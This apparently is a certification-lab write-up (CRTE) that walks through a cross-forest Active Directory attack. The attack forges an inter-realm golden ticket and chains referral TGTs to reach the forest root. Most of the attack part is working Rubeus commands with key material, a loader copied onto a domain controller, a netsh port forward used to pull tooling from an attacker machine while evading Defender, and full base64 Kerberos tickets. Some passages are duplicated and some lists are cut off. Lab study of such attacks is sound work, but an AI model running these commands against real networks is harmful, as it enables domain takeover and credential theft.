










CRTE - Certified Red Team Expert
Cross Forest Attacks - Abusing Trust Transitivity
The Trust Transitivity Paradox: Unraveling Non-Transitive Exploitation Chains and Beyond
Active Directory forest trusts are essential for sharing resources across multiple domains in an enterprise, but they hide a surprising vulnerability that upends traditional security thinking. What if the trusts meant to isolate and safeguard your environment could instead become hidden pathways for attackers? Imagine discovering that a non-transitive external trust between two domains, say US.TECHCORP.LOCAL and EU.LOCAL, can be manipulated to reach the forest root TECHCORP.LOCAL using a "local" Ticket Granting Ticket (TGT). This revelation proves that non-transitive trusts aren’t the solid walls we thought they were. This exploration builds on that finding, delving into extended attack chains, measuring their real-world impact, and offering a groundbreaking defense strategy. Get ready to see AD trust security in a whole new light.The Illusion of Non-Transitive Safety
In the world of AD, trust relationships let users in one forest access resources in another. Transitive trusts create a chain of trust, if Forest A trusts Forest B, and Forest B trusts Forest C, then Forest A implicitly trusts Forest C. Non-transitive trusts, by contrast, are designed to stop this chain, limiting trust to just the two directly connected forests. But here’s the twist: even these supposedly restricted trusts can be exploited. By leveraging trust accounts and carefully crafting ticket requests, an attacker can jump across trust boundaries, turning a non-transitive trust into a bridge to broader access. This discovery flips the script, what we thought was a safeguard is actually a weak point, showing that trust transitivity isn’t black-and-white but a gradient ripe for abuse.
Abusing Trust Transitivity
As Red Team Operators, our mission is to exploit vulnerabilities in Active Directory trust relationships to achieve unauthorized access. In this scenario, we’re targeting a bidirectional external trust between us.techcorp.local and eu.local to gain unintended transitive access to the forest root techcorp.local, which includes domains like us.techcorp.local. The conventional wisdom holds that external trusts, being non-transitive, limit access to only the directly trusted domains. However, we’ll demonstrate how this assumption crumbles when trust accounts and Kerberos authentication mechanisms are skillfully abused. This study material is crafted to be both a practical guide for offensive operations and a revelation of the intricate mechanics that even seasoned experts might overlook.Understanding the Battlefield: Trust Relationships
Active Directory trusts define how domains and forests authenticate and authorize users across boundaries. Let’s map out the terrain:
- External Trust: A manually established trust between two domains, such as us.techcorp.local (a child domain in the techcorp.local forest) and eu.local (a separate domain or forest). It’s bidirectional, meaning users from either domain can access resources in the other, subject to permissions. Crucially, it’s non-transitive, access stops at the trusted domain and doesn’t extend to others, like techcorp.local.
- Forest Trust: A trust between forest roots (e.g., techcorp.local and another forest), which can be transitive, encompassing all domains within the forests. Not applicable here, but relevant for context.
- Intra-Forest Trusts: Within the techcorp.local forest, domains like eu.techcorp.local and us.techcorp.local share implicit, transitive trusts via the forest root techcorp.local. This transitivity is our ultimate target.
A non-transitive external trust can be made transitive to compromise the trusting forest bypassing the principal of non-transitivity.
- Request a referral TGT as intended from eu.local to us.techcorp.local (external bidirectional trust).
- Request a "local" TGT for us.techcorp.local (service realm - us.techcorp.local) since direct access from eu.local to techcorp.local isn't allowed.
- Use the local TGT again to gain another referral TGT for techcorp.local from us.techcorp.local (bidirectional child to forest trust).
- Finally, use the resultant referral TGT to gain a TGS for a target service on techcorp.local.
Why This Shatters Assumptions
Experts assume non-transitive trusts confine access to the trusted domain. However:- Trust Key Exposure: A single compromised DC exposes the trust key, undermining the trust’s isolation.
- Kerberos Flexibility: Forged TGTs with manipulated PACs exploit the KDC’s trust in the key, not the source domain’s identity.
- Forest Transitivity: Once inside one domain, the forest’s transitive trusts become an open highway.
This approach, compromising a trust key to forge a TGT and ride transitive forest trusts to the root, is a masterclass in abusing trust transitivity. It’s not just an attack, it’s a paradigm shift, exposing the fragile underbelly of Active Directory’s trust model. Even the most seasoned experts will pause, mouths agape, at the elegance and audacity of this exploit. Now, go forth and conquer the forest.
Forging an Inter-Realm Golden Ticket for Administrator in EU.local
Assuming that we have compromised the eu.local Forest Domain from us.techcorp.local and we just done a DCSync attack on it, let’s start by forging and inter-realm Golden Ticket for the Administrator in eu.local.
Object Security ID : S-1-5-21-3657428294-2017276338-1274645009-502 Object Relative ID : 502 Hash NTLM: 83ac1bab3e98ce6ed70c9d5841341538 aes256_hmac (4096) : b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d Let’s encode the golden command using ArgSplit.bat to bypass character limitations. Once encoded, we copy and paste it into our target session to execute Rubeus. Argsplit.bat We can now forge our inter-realm Golden Ticket and get access to the eu.local as administrator.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /nowrap /ptt
We can now forge our inter-realm Golden Ticket and get access to the eu.local as administrator.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /nowrap /ptt

doIFVzCCBVOgAwIBBaEDAgEWooIEUDCCBExhggRIMIIERKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBBAwggQMoAMCARKhAwIBA6KCA/4EggP6SRMvdHrGkHOzU2tjpcGjqJgK/7aGcsrgty7UwCoQS95lf70HMJgdXd8YbAkySu1bNlAAuvbLX8Kz+uF84L0ZMhbr1UOM+7K4zEYdH4v5vz757asMFgOLF0hKpmy7DVBlzwSZABIlKuGnoIsce9tyH/nZ4BSJm3kfnCLsV1Nq+KJYHqFLEEt6UaUoqEvclIGJwEWDvLHxJvDxZfUEfwOxCF/S3p6lk8oxY5dO6itFgEKdLjY+Ve//uDlCyOENQ2Kcf8O1rqxK+tEJnvY/EeWzHiXLu5WbWj1y9nscLHF+JF5bGyHsIE13FFvwFcLZWOD6gD0ohq/ihq2sAUJ4yOphnAjkSctReKWT8EExjjTxtFQwbhoBYkxtFuHWGrnXludDl4qpkcAUiXj2q2W/ADVXaSA0VKNazcZbtt2S5CxoJk0HoPUEEsUNCzKlA2bOnIpdTETGfZi+SDgHvQAEon2Xm4wSfMGiE6qeUY6tn9L5woFcDYGi2dSrn0lMYSoQ7SqXjS7GSlqvgD/vbkqMQzVqjywWy+gbfpz9NvlIYeMYvie2+YfR6qr3HhXeg+wpyczWazAHZNnwJT5mAZR/l4jUyx8Brhr0rlCdhaKZuCEJ1PdW/SY+2nG35iQBHCTigWmeW223l2AigTbtgqcBGEg/ez20rFZ+3fd+Vo3WNkiR2l+CmL5CGZfOjVxPQqUELvNaGar2lo+5Uukv8o55fvXomfYOYnp0DQtxZCtTLpNlIRL55wbyQSzu1ESxG9zmgKXexKol6xI72C9b9GerLL7i27Idk5OVImON802zRAlegBdARomf6eXfDJ2poCclChWenavDFup0Qao93jniQ/v1LTdOy7T8ixqDu3TQtg+4LhQWJkeuVJlbmfFUKKjShdGf9rACYx1mzYjPhOAsLfJpYNroPR9DNwdMAbAbYRBumeY02GFbn2g9SgobJaluCIPxHor40Zv98EMI8afGeHp8PWkcKnRzGLKbnqm1ia5MOn6+8DvhDYqvmbjsIvTdLDgbuvwCMc7nO/sNk387Dn7X5jTvUX/yvJotyFgs+ua3W1ZiEuprgqazkUp0PtEAjyOwCpo05fcDjNNqVpk3bJepSOVL4yndyHehVBQXS5/kAzd1cfPZLaADjuyxK7zwwdIpbzcqz+CdHFo9o8b0lzTpGO9ttWk2786s3s3MnSgf8nz/kqAYPo9B20O/n4ZjHbLMhLVn/JZsHq/qv6oIrs+yc66IrQ6k2pdKH/9bGxbzf2opEBu2VbnnI6X4et2r8ixezmy73aWmhAvmBU6LbMX2Fk0UeN6ZpM9Wqu+v5IymtTZNdkA+6M9sGTwyUZ9m1lLr7pqX0f1gZQBXyqOB8jCB76ADAgEAooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIALaxzxmi4gwGppOAWBzDw3kIYKMhHR6H4GxFgznjitmoQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNYWRtaW5pc3RyYXRvcqMHAwUAQOAAAKQRGA8yMDI1MDIyNjE2NDUzOFqlERgPMjAyNTAyMjYxNjQ1MzhaphEYDzIwMjUwMjI3MDI0NTM4WqcRGA8yMDI1MDMwNTE2NDUzOFqoChsIRVUuTE9DQUypHTAboAMCAQKhFDASGwZrcmJ0Z3QbCGV1LmxvY2Fs
As we can see, we were able to forge the Inter-Realm Golden Ticket and also inject it into our current session.
Uploading Files into EU-DC$
Now, since we do have administrator access to EU.LOCAL forest domain, we can now access any service or machine inside eu.local. What we want here is to access the eu.local Domain Controller but before that let’s upload the files that we may need it in the future. echo F | XCOPY C:\AD\Tools\Loader.exe \\EU-DC.eu.local\C$\Users\Public\Loader.exe /Y
For now, that’s all we need inside our target machine inside eu.local forest domain.
Portforwarding to bypass EDR
What If we simply download and execute Rubeus in memory now using our Loader.exe on the target machine? We could simply run Rubeus calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like Rubeus can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like SafetyKatz directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:

Let’s now configure our portforwarding. netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=192.168.100.163
netsh interface portproxy add v4tov4:- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Requesting a Referral TGT for us.techcorp.local
Now, in our EU-DC session, we must use Rubeus to request a referral TGT for us.techcorp.local from eu.local. This is possible because of the bidirectional non-transitive trust between the two domains. A Referral TGT (Ticket Granting Ticket) is called that because it allows authentication across domain or forest boundaries by "referring" the authentication request to another Key Distribution Center (KDC) in a different domain.Why is it Called a Referral TGT?
- Standard TGT vs. Referral TGT
- How the Referral Works
- Why It Matters in Cross-Forest Attacks
Example Flow in the Current Attack
- We request a Referral TGT from eu.local to us.techcorp.local because a bidirectional trust exists.
- This Referral TGT redirects authentication to the KDC in us.techcorp.local.
- Once we obtain a valid TGT for us.techcorp.local, we use it to request another Referral TGT for techcorp.local, effectively bypassing the non-transitive trust restrictions.

An important note is that we must use the ticket from the initial Golden Ticket attack with the /ticket parameter in Rubeus. This ensures that our authentication request is valid and that we maintain persistence across the Kerberos trust boundaries. Let’s now request the referral TGT for us.techcorp.local from eu.local. C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/us.techcorp.local /dc:eu-dc.eu.local /nowrap /ticket:
doIFUTCCBU2gAwIBBaEDAgEWooIEVDCCBFBhggRMMIIESKADAgEFoQobCEVVLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxFVUy5URUNIQ09SUC5MT0NBTKOCBAswggQHoAMCARKiggP+BIID+nJrzhMh2npp1J728XKD3cd4SGD58EX5zrLZMmkDi/NMFerlUzERkRiBemyv6oPbdxhjBjdXk6A6SrGe/HKYdUc0Xx8jSCf0HeOsW5E95ZQV3Uvu5LQ7a1K35WQFUpkK1JnOH++8G9BuB4s73a0V6vrNo7gt4vvO/SEfU6KLQrh3OryvO9SxGM3z27GCs/6aXI6q6Uavp6Xgw6MP6NOz8LtF2suLIlqZIBb8MpsfVv3uHwLhTAP9v0eA9HFoXneQeldvQiQ0D9PZHme4ZiWWwm4yHrsLZHjf0PzkYot5ypZLHjYuK5bxAgS9jzydPf7JortjszeQd9ig6hYV9SIOVuhR8HMhIebiVUTlFPXKT3Db9q663F9HfiDM5FQQ0Mm0CvSEqJWwXu0fPk2o2+FaEUTUIyk2P9ytPMldIdg2M/lYfZuK6joliRiCi3k+xyiMiYlQVd79GlDQN2wsCNkFBankn7tQRTdw7/zp+nLA2SipWTxylxkhMx/2DboK3HSfJMfclsSTWXivQnJSKc/529HTL1iySjUE9IxMg9qbjuMHAEJAaW3VX8CySb+4TQug+mZYJxxZkkMKJozK7c20kPYsbu064L0LTuNB90AL7KN20x2R5SAo/KtK9U2uzAH0XxHcb6wA0WtdzrNBnLUnDLATUrxYWFR0qVUzSH/BPQiL9a61K13KNzkxQw/n7DbHqhKAxNPKz7OqrTnc90L3UhSh8uD1Xmzi39ml3MCNk9cJr1fO34+bcQTcSIRh8KbnqCSPRxKqctAAsTvx69DYpUR2ePymFs5q6HkezNur4U5D/Ap63y4EiLtvbfYt/WPot7jvuk2S7YR6q9fMX3PjjWNpPK/VRyMmL4r6RooXuc+HclucWpPACnifn7gSymnJFPzV81BdzFZESuCnTrv0ImILkF4TDKPDln5NdPnrjCMX5N1VGPLOtrK+b1OdpSAOKgYaQRR3K/mXyYYvK1ZkAoxtz8DU2pKmCRRn/zerP6GAghbsSXdD7/b9mILnoEq0/apXM/ALv7TdIaYenwYIVwTuUtxyQONh3d+gvkVaoEtz1EntA3kk0XZ7iT3j6J3y6j1lEp53ILxpe+FlWmyCswwY0Q/3yEqcqfVPxQR7B5vgGaAwBo3dtH2+PLLG8GdEx7RtCPZHqPxjlxpP8hOYoFeugJiJzeIe5ILEqcq59DFx6lmm0XtE2p+ivwiRJCtAwLOpKbhNnMAuVHlfOfLhAuaYNZYvO6+0PbO5k28O39htnDl0r7Dml0LKKTGH9soMSE1riuKquHmKTwuIb+if0eLWySOp8K0cvsh7PIZ89XvM4kax2p5O7qU8MbWadXigjPDQ5to4tZAd6XqjgegwgeWgAwIBAKKB3QSB2n2B1zCB1KCB0TCBzjCBy6ArMCmgAwIBEqEiBCDHzCJL+Q7OoHX41AfVYg961/E9Rv9V3vn6fC4b0MlV0KEKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyNTAyMjYxODA3MDZaphEYDzIwMjUwMjI3MDI0NTM4WqcRGA8yMDI1MDMwNTE2NDUzOFqoChsIRVUuTE9DQUypJjAkoAMCAQKhHTAbGwZrcmJ0Z3QbEVVTLlRFQ0hDT1JQLkxPQ0FM
Since the trust between eu.local and techcorp.local is non-transitive, we cannot request a direct referral TGT for techcorp.local. Instead, we take an indirect approach. First, we create a "local" TGT for us.techcorp.local while still in the eu-dc session, treating us.techcorp.local as the service realm. Then, we use this local TGT to request a Referral TGT from us.techcorp.local to techcorp.local, taking advantage of the bidirectional child-to-forest trust. This allows us to escalate further despite the non-transitive nature of the original trust.
Now once again, let’s encode the Rubeus argument(asktgs) and copy/paste it into where we will be requesting our “Local” TGT and we will use ArgSplit.bat file for that.
To do this, we generate the local TGT in eu-dc using the /targetdomain parameter as us.techcorp.local, while providing the previous Referral TGT in the /ticket parameter to chain the authentication. C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/us.techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:
doIFaDCCBWSgAwIBBaEDAgEWooIEYjCCBF5hggRaMIIEVqADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiYwJKADAgECoR0wGxsGa3JidGd0GxF1cy50ZWNoY29ycC5sb2NhbKOCBBAwggQMoAMCARKhAwIBAqKCA/4EggP6WLLOPZ6wSFg0i/jx2/1RXgfqTgod9a0dXZx2gLyKTllGBONcqrmpwL7+NfYO2Mk0FM+1JrfXacACVCDYO875IO707dgtJCmOSa6tRimWW1TAwSP+H9E1RjLpKxDaxVKVKfscvdDuXOea6ToOWs9UfC+L0zkK/BlMHAHJCxz1kYdTy4wJzx4pVbfDHt+nH6Fj+RzM07q8du/RaUH9AsMe3TmxJFoCrUEV3T1IjI4XIlKYFceR/izJoXAy9pajt6qT7iltS4Ww8pvxMPnqQ9aNfXkg19iKpNdNa6mvTq9EXJM/tafOKCkkGdgK6Wvt2WGLBfC9Fieg5fd+Z3WMdJWhG9XsSHieCuTs9KdWXNbng64JMMH9DF76YVszSyYaYhiYZwUpHUpt5DkEh3u/D7QmJkz7xszAXZr4S+0nQyXA26O8u4jRFp9fC5jI65Ex86R+EZyThq+u89tYJlIYDhoS2m5VtnH1vc5UIXpzluy/iD+jbSzN/LaW4nIUIIM9nKO9puYgSewNy05iMCNei1LUZsNd5Xmp8mH6eBb7+R2KWW1rFK5t+B3YVk+KxZkIkDx1Lz3oYm8tTKhbBJzqAq0CHptvdAp+4r9P2Zrg0rCD+/MTtaIqbEwbNfdL54k2tsSCnoTYoOiEbXhRow5d2Y+vSuzaAf3I+M2kDyCRKVUi/n9gtEJrzOQcfd641mTSjrUxdNdyqdzW/fkAANqtXBXui4f1CF4ByQ2hSmboGNpG0z3yJ6nTsupjPdce0qiSLPn4nhcf9UshH178kzE+YDMzNWrJkrcZ2B+tTcXw1OsyJvkn3vx+C9NXdVIEeh33d7gxJwoKdL7MTzqBs68XGzI6o7yqaHe9P/lRFvFXNtnzs4TiRXrtRbzyzZxCbXSfHqwlP3xIoBcdCcmAtCcuYwmTBZhSixjzG9oZhojO2xoMPjVY+04QFj67dEh4tWgn4AFOovbt9XF4q9YQclZpedZgtHSl1tsW1UYUu3BVIt0q10qQp7T2wkMQag5fcXn8p1ApXi3SHl+A92GhH9P+49/cHD/wPggDYWe6wZqj1h/AgIDUNCRGqih3PfsfeU/n3At8anb8tX0XjPaS7loHChRNgD4JoSBDW1mftV9C4bswdERe17Y62Y7c6Dv1OmTMApc+FAk3TRvLY22d9J4QJIz0dNi6ScUkTRzsm5bxaomZQUT9FMdIyMuMCR37xXv+Q2yPxo7EopWXxszlyTtf/BKeZcsdoqm+NBTPXfpUXl0PokpeL02MHvasr5Xdj0bpKVwT8l1F1TfGBFDMPf8JaSuRe23Wujowj17/JCd3DUIvHDgfOuxETnTMpFnc983/mOz5jjxb/K7y0ASFNKOB8TCB7qADAgEAooHmBIHjfYHgMIHdoIHaMIHXMIHUoCswKaADAgESoSIEIDp5BKcaOuIkikHKXsrM+c2COi6qYhsjL0BnGeHeEpYUoQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNYWRtaW5pc3RyYXRvcqMHAwUAQKEAAKURGA8yMDI1MDIyNjE4NDExOVqmERgPMjAyNTAyMjcwMjQ1MzhapxEYDzIwMjUwMzA1MTY0NTM4WqgTGxFVUy5URUNIQ09SUC5MT0NBTKkmMCSgAwIBAqEdMBsbBmtyYnRndBsRdXMudGVjaGNvcnAubG9jYWw=
 Now, in the EU-DC$ session again, we can finally request a referral TGT for techcorp.local from us.techcorp.local, leveraging the child-to-forest bidirectional trust. To ensure the request is successful, we must use the previously obtained local TGT in the /ticket parameter.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:
Now, in the EU-DC$ session again, we can finally request a referral TGT for techcorp.local from us.techcorp.local, leveraging the child-to-forest bidirectional trust. To ensure the request is successful, we must use the previously obtained local TGT in the /ticket parameter.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:krbtgt/techcorp.local /dc:us-dc.us.techcorp.local /targetdomain:us.techcorp.local /nowrap /ticket:

doIFczCCBW+gAwIBBaEDAgEWooIEcDCCBGxhggRoMIIEZKADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBCEwggQdoAMCARKhAwIBAqKCBA8EggQLBuDcXZG/Py62E/lrquhe9czbv01iAtYa5srHh5nWBdK2TFQGnWgXCoRmWAeniO6ZO90vVk+h00Tkvv+tIIEsKNDKbL8qoSh3LLe2eflbUCa68Akxz0adljvm6VjD1wgUuIo+GGtWzDB97lSmnoHwDqdyriyTg5mZLOj6q2ve92SJXUgUNTHzToUp5Oph5lhm6I0Mmywk+pLT9OEFFQx0BU6jgzKt4x63ASUCgR3a5z4MHL2LM5A3IM7g0Dmxd5ZZidhQXnEYt/RlIOEvvpmsCCTTIYNVUXQQ01vUO7NbXckFL9/H192GzKnZgzXwwUdqTa1PsgKsfS8Evj+H5kex25ucixd42H/daFoRiJG6XaWetbB9H8RGQJPVA8XXm7w8drswLxj4dHF8afliXMtaLCOuFzkbbLjxr1xJEVqaBbS8aZ1cUtgIIAe6FGOvdLxUFAcrMWEaZo/c9cwobWOhLz2E27QYck8POOd+X9mbYC4vpb8nszPM5ByoyMVR0cjP0jw8c4j5Idk5hfIBoBz1gohbdMQYnSMGQGltXvYYGUXu5pM1a79VyO5CDHbz8KBj++1f3tygYpZokRWy2ydpu0NY0/dHkEbnHWdRsRhLUe91TqW11uddxM4yQeAgDHjgY5zWQV8NrjNs5jh9IEkuoCcxPcICWCNm0A1Qyqctat85W5TiNYm6pGqKjQDvTbt5aXI5w49HBSkSHflym+rfKwZLBb9woU5WjQc6qvKVBSo7nJEOCYOVPFLLvvzXoCzvQRjLR73pLZ2nzQVAzXNX7rblg8XUI3kxOGg2ElHH0flEJm8ksr1HNNUB4Y/vn9Nlz3sRZOtQAmO1FuyGR7yOrCxsRYtMafNuoXP3D/0vJmOiksEJTtINpKsyrSv6W0JHisMXkXjrQE57s1wuRx69EpnxMarVnSrd89VBo0V7Qfr62VFRFtb+Mteuj5zL1/H5t5Qn8R0X5SDlqlTUCF8muE4NBBhkkjLEHockUUsibxR4JKudZiMtMMfhCFRErL2jksBVT3EMx5Vif+dLIpu7AElzf6VFE4715RbYxNEn2XxXIvNAGj1060jf+KwnfCqlhRfop3A+fUGo95shpLpZ9ZM0kviSgyQHBR0arGENUR1XIzkC2eNCphVhzyU/oK4Ft+4SQYN/iwTmEXTPVx8BhT/ICCdeNdqg53YEOxO+cv0Xz/chwEE7rXTi2t3/q1uMpE8k2P6pfitjJUkLEqfFcCmCG35neYVWl5ib